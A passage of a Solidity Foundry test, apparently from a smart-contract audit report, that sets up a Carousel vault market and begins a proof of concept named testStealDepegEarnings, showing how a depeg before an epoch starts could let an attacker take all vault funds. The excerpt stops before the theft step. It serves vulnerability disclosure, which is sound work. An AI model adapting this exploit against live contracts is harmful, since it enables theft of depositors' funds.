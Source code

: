 ```solidity
        (address premium, address collateral, uint256 _marketId) = carouselFactory.createNewCarouselMarket(config);
        marketId = _marketId;
        premiumVault = Carousel(premium);
        collateralVault = Carousel(collateral);

        // creating the first two epochs, with the first one beginning and the second one queued:

        (epochId1,) = carouselFactory.createEpochWithEmissions(
            marketId,
            uint40(block.timestamp+10), // epochBegin
            uint40(block.timestamp+20), // epochEnd
            100,1_000e18,1_000e18
        );

        vm.warp(block.timestamp+10); // epoch 1 has started

        // 10 timestamp gap between the first epoch and the second epoch
        (epochId2,) = carouselFactory.createEpochWithEmissions(
            marketId,
            uint40(block.timestamp+20), // epochBegin
            uint40(block.timestamp+30), // epochEnd
            100,1_000e18,1_000e18
        );

        // first epoch resolved with nullEpoch as there are no deposits
        controllerPeggedAssetV2.triggerNullEpoch(marketId,epochId1);
        vm.stopPrank();
    }

    /// showcasing the bug/exploit
    function testStealDepegEarnings() public {

        // showcasing how users can steal all money from a vault if there is a depeg event
        // which occurs prior to any epoch starting

        // user1 deposits funds into the premium vault
        vm.prank(user1);
        premiumVault.depositETH{value:10e18}(
            epochId2,user1
        );

        // user2 deposits funds into the collateral vault
        vm.prank(user2);
        collateralVault.depositETH{value:50e18}(
            epochId2,user2
        );

        // the asset has depegged, simulating this by setting the oracle price
        // the price of the asset is now less than the strike price
        priceFeed.setData(1,98e7,0,0,1);

        vm.warp(block.timestamp+20); // second epoch has started

        // create the third epoch - done to show that attacker can steal all vault funds, including deposits for future epochs
        vm.prank(admin);
        (uint256 epochId3,) = carouselFactory.createEpochWithEmissions(
            marketId,
            uint40(block.timestamp+20), // epochBegin
            uint40(block.timestamp+30), // epochEnd
            100,1_000e18,1_000e18
        );
```